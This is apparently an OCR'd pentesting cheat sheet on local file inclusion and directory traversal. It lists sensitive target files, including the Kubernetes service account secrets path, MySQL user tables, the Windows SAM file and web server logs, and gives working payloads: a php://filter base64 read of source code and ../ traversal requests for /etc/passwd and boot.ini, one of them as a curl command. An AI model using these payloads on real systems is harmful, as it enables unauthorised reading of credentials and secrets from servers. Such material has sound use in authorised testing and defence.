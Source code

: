 /var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
Apache
/etc/apache2/apache2.conf
/usr/local/etc/apache2/httpd.conf
/etc/httpd/conf/httpd.conf
Red Hat/CentOS/Fedora Linux -> /var/log/httpd/access_log
Debian/Ubuntu -> /var/log/apache2/access.log
FreeBSD -> /var/log/httpd-access.log
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache/error.log
MySQL
/var/lib/mysql/mysql/user.frm
/var/lib/mysql/mysql/user.MYD
/var/lib/mysql/mysql/user.MYI
Windows
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
/windows/panther/unattended.xml
/windows/panther/unattend/unattended.xml
/windows/system32/license.rtf
/windows/system32/eula.txt

Situation

```
http://<target>/index.php?parameter=value

```

### How to Test

```
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index

```

```
http://<target>/script.php?page=../../../../../../../../etc/passwd
OR
http://<target>/script.php?page=..//..//..//..//..//..//../etc/passwd
OR
curl http://<target>/script.php?page=..//..//..//..//..//..//../etc/passwd

```

```
http://<target>/script.php?page=../../../../../../../../boot.ini

```

